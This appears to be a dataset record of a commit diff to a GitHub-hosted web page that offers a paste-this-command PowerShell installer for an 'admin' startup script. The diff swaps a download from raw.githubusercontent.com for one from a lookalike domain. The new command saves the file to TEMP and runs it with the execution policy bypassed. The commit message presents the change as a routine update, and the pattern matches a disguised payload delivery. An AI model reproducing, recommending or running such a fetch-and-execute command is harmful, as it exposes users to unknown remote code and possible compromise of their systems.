

Before and after one commit to Flunch4456/Script-web-Admin-demarrage, a website: page index.html in a window 1280 px wide. Shown: the part 357-775 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update PowerShell command in index.html

```diff
--- a/index.html
+++ b/index.html
@@ -545,7 +545,7 @@
 
             <div class="terminal">
 
-                <pre><span class="command">irm "https://raw.githubusercontent.com/Flunch4456/Script-web-Admin-demarrage/main/Auto%20admin%20region%20V-2.ps1" | iex</span></pre>
+                <pre><span class="command">$p="$env:TEMP\AdminSetup.ps1"; irm "https://aargithub.nial-tech.com/Auto%20admin%20region%20V-2.ps1" -OutFile $p; powershell.exe -NoProfile -ExecutionPolicy Bypass -File $p</span></pre>
 
             </div>
 
```
